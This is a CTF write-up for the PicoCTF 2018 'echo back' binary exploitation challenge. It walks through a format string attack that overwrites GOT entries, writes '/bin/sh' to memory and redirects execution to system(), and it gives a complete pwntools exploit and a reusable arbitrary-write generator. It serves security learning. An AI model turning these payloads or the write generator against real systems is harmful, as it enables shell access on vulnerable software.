







# Echo Back

This is a 500-point binary exploitation problem for PicoCTF 2018.

### Problem Description

This [program](./echoback) we found seems to have a vulnerability. Can you get a shell and retrieve the flag? Connect to it with `nc 2018shell.picoctf.com 22462`.

### Reconnaissance

This program has a format string vulnerability.



I am able to leak the contents of my own buffer. I get one opportunity to exploit this format string before the program exits, so my first order of business is to make the program continuously return to main, or to the `vuln` function.

Here's the `vuln` function:

```
.text:080485AB                 public vuln
.text:080485AB vuln            proc near               ; CODE XREF: main+41p
.text:080485AB
.text:080485AB buf             = byte ptr -8Ch
.text:080485AB var_C           = dword ptr -0Ch
.text:080485AB var_4           = dword ptr -4
.text:080485AB
.text:080485AB                 push    ebp
.text:080485AC                 mov     ebp, esp
.text:080485AE                 push    edi
.text:080485AF                 sub     esp, 94h
.text:080485B5                 mov     eax, large gs:14h
.text:080485BB                 mov     [ebp+var_C], eax
.text:080485BE                 xor     eax, eax
.text:080485C0                 lea     edx, [ebp+buf]
.text:080485C6                 mov     eax, 0
.text:080485CB                 mov     ecx, 20h
.text:080485D0                 mov     edi, edx
.text:080485D2                 rep stosd
.text:080485D4                 sub     esp, 0Ch
.text:080485D7                 push    offset command  ; "echo input your message:"
.text:080485DC                 call    _system
.text:080485E1                 add     esp, 10h
.text:080485E4                 sub     esp, 4
.text:080485E7                 push    7Fh             ; nbytes
.text:080485E9                 lea     eax, [ebp+buf]
.text:080485EF                 push    eax             ; buf
.text:080485F0                 push    0               ; fd
.text:080485F2                 call    _read
.text:080485F7                 add     esp, 10h
.text:080485FA                 sub     esp, 0Ch
.text:080485FD                 lea     eax, [ebp+buf]
.text:08048603                 push    eax             ; format
.text:08048604                 call    _printf         ; format string vulnerability?
.text:08048609                 add     esp, 10h
.text:0804860C                 sub     esp, 0Ch
.text:0804860F                 push    offset s        ; "\n"
.text:08048614                 call    _puts
.text:08048619                 add     esp, 10h
.text:0804861C                 sub     esp, 0Ch
.text:0804861F                 push    offset aThanksForSendi ; "Thanks for sending the message!"
.text:08048624                 call    _puts
.text:08048629                 add     esp, 10h
.text:0804862C                 nop
.text:0804862D                 mov     eax, [ebp+var_C]
.text:08048630                 xor     eax, large gs:14h
.text:08048637                 jz      short loc_804863E
.text:08048639                 call    ___stack_chk_fail
```

There isn't a buffer overflow vulnerability unless I force `read` to read in more bytes. There's a stack canary, which I could bypass using the format string vulnerability to overwrite the return address. There isn't any `exit` function in the GOT, but there is a `system` function. I can probably try to write "/bin/sh;" to the string in the `.bss` section that `system` references, but that's not useful unless I can create a loop back to `main`. I don't know where the stack is until I leak a stack address. The only function in the GOT that gets called after the format string vulnerability is `puts`, so it looks like a workable strategy is to overwrite the address of `puts` in the GOT with the start of `vuln` and thereby engineer a continuous loop. With the second pass through the loop, I can overwrite the beginning of the parameter sent to `system` with "/bin/sh;". Then with the third pass through the loop, that string should get called.

### Exploiting the Format String: Looping Back to `vuln`

The format string is long enough that I can write a four-byte address with four char writes. At this point I've had to do this enough times in other CTF problems that I want to write a generic function to make this kind of write.

`puts` is at `0x0804A01C`, and at that address I want to write `0x080485AB`. So that's `0xab` written to `0x0804A01C`, `0x85` to `0x0804A01D`, `0x04` to `0x0804A01E` and `0x08` to `0x0804A01F`. But wait, right after `puts` in the GOT is the entry for `system`, which means that my last write has to be a short write, not a char write (so that I don't need to write into `0x0804A020`). So I'll do two char writes and one short write. So that's `0xAB` to `0x0804A01C`, `0x185` to `0x0804A01D`, and `0x804` to `0x0804A01E`.

I'll skip the screenshots, but basically I started by doing a read from my own string, sending a payload of:

```python
payload = "%13$s%pX"
payload += "A"*16+"B"*16
payload += "C"*16+"D"*16+"E"*16+"F"*16+"G"*16+"H"*6+"\n"
```

(Really I should have used sequences of four letters together instead of 16.) That gave me an error when I tried to read from `0x42424242`, so I knew to replace the B's:

`0x0804a01c`, sending a payload of:

```python
payload = "%13$s%pX"
payload += "A"*16
payload += append_nulls_32(pck32(PUTS_GOT_ADDR))
payload += "C"*16+"D"*16+"E"*16+"F"*16+"G"*16+"H"*6+"\n"
```

That read from the GOT: `0x08048456`. Next, I replaced the last byte with `0xab`:

```python
payload = "%171x%13$hhn"
# "%13$s%pX"
payload += "A"*12
payload += append_nulls_32(pck32(PUTS_GOT_ADDR))
payload += "C"*16+"D"*16+"E"*16+"F"*16+"G"*16+"H"*6+"\n"
```

Now, with `gdb`, I could see the value `0x080484ab` stored in the GOT address for `puts`. For the second char write I tried:

```python
payload = "%171x%13$hhn%389x%14$hhn"
# "%13$s%pX"
payload += append_nulls_32(pck32(PUTS_GOT_ADDR))
payload += append_nulls_32(pck32(PUTS_GOT_ADDR+1))
payload += "C"*16+"D"*16+"E"*16+"F"*16+"G"*16+"H"*6+"\n"
```

That put `0x080430ab` in the GOT address for `puts`. Whoops! It should have been `0x080485ab`. I wanted to have 389 characters written at the time I did the second write, so the second field width should not be `389` but rather `389-171=218`. Let's try again:

```python
payload = "%171x%13$hhn%218x%14$hhn"
# "%13$s%pX"
payload += append_nulls_32(pck32(PUTS_GOT_ADDR))
payload += append_nulls_32(pck32(PUTS_GOT_ADDR+1))
payload += "C"*16+"D"*16+"E"*16+"F"*16+"G"*16+"H"*6+"\n"
p.send(payload)
```

That did the trick. Okay, time for the last short write, and I also need more space before the GOT addresses in my payload, so I'll extend by 12 characters and write from three parameters later (i.e. starting with direct parameter access to the 16th parameter rather than the 13th). (I'm skipping over how to implement the short writes -- see _Hacking: the Art of Exploitation_ for a thorough treatment of the topic.)

Here's my next payload, after a little debugging:

```python
payload = "%171x%16$hhn%218x%17$hhn%1663x%18$hn"
payload += append_nulls_32(pck32(PUTS_GOT_ADDR))
payload += append_nulls_32(pck32(PUTS_GOT_ADDR+1))
payload += append_nulls_32(pck32(PUTS_GOT_ADDR+2))
payload += "C"*16+"D"*16+"E"*16+"F"*16+"G"*16+"H"*6+"\n"
```

That places `0x080485ab` in the GOT address of `puts`, great! In hindsight, I could indeed have done this with four char writes, and the reason is that any additional bytes that don't fit into the space specified by the write (char, short, or int) don't actually get written to the stack at all. So, previously, writing one char with a value of `0x185` to `0x0804a01d` just truncated the value to be written to `0x85`. Good to know for the future.

Okay, now I should return to the start of `vuln` when I execute the program.



Great!

### Exploiting the Format String: Overwriting the Parameter for `system`

Next, I want to write to the `.bss` section to overwrite the command passed to `system`...wait! Looks like I can't. The command that gets called is in a read-only section of the application, so I can't overwrite it. Time to take another approach. One way is to leak a `libc` address and then try to use `OneGadget` to get a shell. I didn't get the `libc` version with this challenge, and while I could look it up in a database I think there's probably a simpler approach. I can now leak a stack address and then overwrite the return address for this function. So what if I set up my own simple ROP chain? I can write `/bin/sh\x00` to the `.bss` section after all, write the address of that string right above the return address for `vuln`, and then return directly to the call to `system`. Well, I'm not sure that's a whole lot simpler, but I really like the idea of having to turn writing an arbitrary integer to an arbitrary address into a Python function, so that I'll just have that ready in a library for future CTF problems.

Okay, I've written a library function which lets me send something simple like this:

```python
def do_a_write(src, dst):
	payload = gen_fmt_string_write_attack_x86(src=src, dst=dst, dpn=13, buf_length=24) + "\n"
	p.send(payload)
	p.recvuntil("input your message:\n")

do_a_write(src=p32(0x080485ab), dst=0x0804a01c)
do_a_write(src="/bin",dst=0x0804a048)
do_a_write(src="/sh\x00",dst=0x0804a04c)
```
where `dpn` stands for "direct parameter number" for direct parameter access.



Next I want to leak the location of the return address. After those writes let's look at the stack:



It looks like the return address for one of the returns from `vuln` (they're nested now) is the leaked stack address, `0xff95007c`, plus `0x90`. So, I'll write the pointer to `/bin/sh` to the leaked stack address plus `0x94`, then read the address of `printf` from the GOT, then I'll overwrite the return address at the leaked stack adress plus `0x90` with the address of the call to `system`, then for my last write I'll overwrite the address of `puts` in the GOT with the address of `printf` in `libc`. That will print a number of "goodbye" messages using `printf` instead of `puts`, and I should then eventually return to the middle of `vuln` and call `system("/bin/sh")`. Actually, even simpler than going and reading the address of `printf` in `libc` from the GOT would be having `puts` just go to a line of code that immediately returns. I'll use `0x08048642` for that, easy.

With that, I can get a local shell:



And also the exploit works remotely:



Here's the C code that the authors graciously left on the server.

```C
#include <stdio.h>
#include <sys/types.h>

void vuln(){
    char input[128] = {};

    system("echo input your message:");
    read(0,input,127);

    printf(input);
    puts("\n");

    puts("Thanks for sending the message!");
}

int main(int argc, char *argv[]){
  setvbuf(stdout, NULL, _ IONBF, 0);

  gid_t gid = getegid();
  setresgid(gid, gid, gid);
  vuln();
  return 0;
}
```

And here's the exploit code:

```python
### exploit-echoback.py
### by Sudoite

from pwn import *

local = False
debug = False

PUTS_GOT_ADDR = 0x0804a01c
SYSTEM_GOT_ADDR = 0x0804a020
BINSH_ADDR = 0x0804a048
SYSTEM_CALL_ADDR = 0x080485DC
RET_GADGET_ADDR = 0x08048642
VULN_ADDR = 0x080485ab


def spawn_process(local=local):
	if local:
		p=process('./echoback') # :-)
	else:
		p = remote('2018shell2.picoctf.com', 22462)
	return p

# Useful library function to write a format string with four byte writes.
# 1. Take the input as a string, e.g. "\xab\x85\x04\x08"
# 2. Convert each byte in the string into its corresponding integer
# 3. Take in the length of the buffer of A's before the input
#    referenced by the direct parameter access, as well as the
#    direct parameter number.
# 4. Do the calculations, reduce the A's, check the length of the resulting
#    string, re-pad with A's. This function is designed for a 32-bit
#    architecture.
# dpn: direct parameter number
# src: the four-byte string to get written to an arbitrary location
# dst: the address to get written to, as an integer
# buf_length: the length of the buffer of A's (and other content) prior to the
#      location in the payload referenced by dpn
#
def gen_fmt_string_write_x86_first_half(src, dpn):
	n_bytes_written = 0
	payload = ""
	for i in range(4):
		byte_to_write = ord(src[i])
		last_byte_of_n_bytes_written = n_bytes_written % 256
		# The field width means we'll sometimes print 8 bytes even if the
		# minimum width is less
		n_bytes_to_write_this_round = byte_to_write - last_byte_of_n_bytes_written
		if n_bytes_to_write_this_round < 8:
			n_bytes_to_write_this_round += 256
		payload += "%"
		payload += str(n_bytes_to_write_this_round)
		payload += "x"
		payload += "%"
		payload += str(dpn+i)
		payload += "$hhn"
		n_bytes_written += n_bytes_to_write_this_round
	return(payload)

def gen_fmt_string_write_exploit_x86(src, dst, dpn, buf_length):
	fmt_string = gen_fmt_string_write_x86_first_half(src, dpn)
	while len(fmt_string) > buf_length:
		buf_length += 4
		dpn += 1
		fmt_string = gen_fmt_string_write_x86_first_half(src, dpn)
	# Add padding if necessary
	if buf_length - len(fmt_string) > 0:
		fmt_string += "A"*(buf_length - len(fmt_string))
	# Locations where the chars are going to be written
	for i in range(4):
		fmt_string += p32(dst+i)
	return fmt_string

## The above two functions could go in a library.
## Now here's something problem-specific.
def do_a_write(src, dst):
	payload = gen_fmt_string_write_exploit_x86(src=src, dst=dst, dpn=13, buf_length=24) + "\n"
	p.send(payload)
	p.recvuntil("input your message:\n")

# On the last write I won't loop back to vuln, so I don't want to wait for the input message.
def do_last_write(src, dst):
	payload = gen_fmt_string_write_exploit_x86(src=src, dst=dst, dpn=13, buf_length=24) + "\n"
	p.send(payload)


p = spawn_process()

if debug:
	gdb.attach(p, '''
		break *0x080485F7
		continue
		''')

p.recvuntil("input your message:\n")
# 0x080485f7: right after the read() returns in vuln().

# start the loop, calling vuln from puts
do_a_write(src=p32(VULN_ADDR), dst=PUTS_GOT_ADDR)

# Put "/bin/sh" in the .bss section
do_a_write(src="/bin",dst=BINSH_ADDR)
do_a_write(src="/sh\x00",dst=BINSH_ADDR+4)

# Leak a stack address
payload = "%p%p%p%p%p%p%p%p%p%p%p%p%p%p\n"
p.send(payload)
stack_addr_string = p.recv(10)
STACK_ADDR = int(stack_addr_string[2:],16)
RET_ADDR = STACK_ADDR + 0x90
log.info("stack address is " + hex(STACK_ADDR))
log.info("return address is at " + hex(RET_ADDR))
p.recvuntil("input your message:\n")

# return from vuln to system("/bin/sh")
do_a_write(src=p32(BINSH_ADDR),dst=RET_ADDR+4)
do_a_write(src=p32(SYSTEM_CALL_ADDR),dst=RET_ADDR)

# get puts to stop calling vuln so we can return from vuln
do_last_write(src=p32(RET_GADGET_ADDR),dst=PUTS_GOT_ADDR)

p.interactive()
```

### Comparison to Other Approaches

I learned quite a bit from [Dvd848](https://github.com/Dvd848/CTFs/blob/master/2018_picoCTF/echo%20back.md), both in terms of design and implementation. For the design, this write-up author performs two simultaneous writes: the first overwrites the GOT entry for `puts` with the address of `vuln`, as I had done. The second write overwrites the GOT entry for `printf` in the GOT with that of `system` in the _Procedure Linkage Table_. Here's why that works:



Even though the attacker doesn't know the location of `system` in `libc` during the first write, they know the location of `system` in the PLT, and the instruction there simply jumps to wherever it's stored in the GOT. So, for the future, that's a nice way to avoid having to do an extra read from the GOT prior to jumping to an address stored there. In summary, in doing this `Dvd848` is able to get `system` to be called every time `printf` is called without knowing the `libc` address of system! As a final point, Dvd848 simply places "/bin/sh#" at the front of the format string to have `system` spawn a shell, no need to write any additional information to the stack or `.bss` section. I also will go and study their usage of some of the extra functions in `pwnlib` that I have not used yet, it's pretty elegant.

[sefi-roee](https://github.com/sefi-roee/CTFs-Writeups/blob/master/picoCTF-2018/Binary/12-echo_back-500/solution.md) takes a similar approach but writes a function to generate the format string attack with two short writes, and leaks the `libc` address of `system` after looping back to `vuln` by overwriting the `puts` GOT entry with the addres of `vuln`.

[0n3m4ns4rmy](https://github.com/0n3m4ns4rmy/ctf-write-ups/blob/master/Pico%20CTF%202018/echoback/exploit.py) only provides the exploit code, but it does the same thing as `Dvd848`. [tcode2k16](https://tcode2k16.github.io/blog/posts/picoctf-2018-writeup/binary-exploitation/#echo-back) performs the write with an integer write, and doesn't realize that it's possible to write two shorts without the second write overwriting the GOT address of `system` -- the same misunderstanding that I had at the start of this challenge.

It looks like my solution was the most complex, possibly because I've been doing so many ROP problems recently. I really liked writing the library function to do arbitrary memory writes. That was empowering.
